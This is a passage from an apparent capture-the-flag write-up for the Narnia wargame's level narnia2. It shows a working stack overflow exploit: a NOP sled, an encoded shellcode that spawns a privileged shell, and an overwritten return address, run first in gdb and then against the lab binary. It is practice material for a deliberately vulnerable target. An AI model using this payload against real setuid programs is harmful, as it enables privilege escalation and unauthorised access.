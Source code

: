 Note the pointer at end of `nop` , change `0xffffd538` the pointer in previous exploit 

```
run `echo -e "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\xeb\x11\x5e\x31\xc9\xb1\x21\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x6b\x0c\x59\x9a\x53\x67\x69\x2e\x71\x8a\xe2\x53\x6b\x69\x69\x30\x63\x62\x74\x69\x30\x63\x6a\x6f\x8a\xe4\x53\x52\x54\x8a\xe2\xce\x81\x38\xd5\xff\xff"`
```

BOOM !!! We got the shell  

<img src="img/Pasted image 20240719202317.png" alt="Example Image" width="1080"/>
It worked but the user is still  `narnia2` , can't able to get next level password and we used -p flag there is no use of that. `exit` gdb. let's try outside gdb might work or not 

```
narnia2@gibson:/narnia$ /narnia2 `echo -e "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\xeb\x11\x5e\x31\xc9\xb1\x21\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x6b\x0c\x59\x9a\x53\x67\x69\x2e\x71\x8a\xe2\x53\x6b\x69\x69\x30\x63\x62\x74\x69\x30\x63\x6a\x6f\x8a\xe4\x53\x52\x54\x8a\xe2\xce\x81\x38\xd5\xff\xff"`
```

we got different shell `bash-5.2$ ` , -p it worked now we had a effective user  
<img src="img/Pasted image 20240719202824.png" alt="Example Image" width="1080"/>
